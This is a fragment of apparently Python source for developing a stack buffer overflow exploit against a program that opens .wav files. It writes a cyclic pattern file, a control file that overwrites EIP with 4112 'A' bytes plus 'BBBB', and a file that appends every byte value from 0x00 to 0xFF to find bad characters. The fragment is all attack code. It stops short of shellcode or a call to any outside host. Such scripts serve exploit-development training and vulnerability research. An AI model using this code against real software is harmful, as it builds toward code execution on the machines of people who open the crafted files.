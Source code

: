 ```python
                    "Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5F"
                    "t6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw"
                    "5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4"
                    "Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3G"
                    "c4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf"
                    "3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2"
                    "Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk", "utf-8")
    with open("pattern.wav", "wb") as file:
        file.write(payload)

def eipControl():
    offset = 4112
    buffer = b"A" * offset
    EIP = b"B" * 4
    payload = buffer + EIP
    with open("control.wav", "wb") as file:
        file.write(payload)

def badChars():
    allChars = bytes([0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
                      0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
                      0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
                      0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
                      0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
                      0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
                      0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
                      0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
                      0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
                      0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
                      0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
                      0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
                      0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
                      0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
                      0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
                      0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
                      0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
                      0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
                      0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
                      0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
                      0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
                      0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
                      0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
                      0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
                      0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
                      0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
                      0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
                      0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
                      0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
                      0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
                      0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
                      0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
                    ])
    offset = 4112
    buffer = b"A" * offset
    EIP = b"B" * 4
    payload = buffer + EIP + allChars
```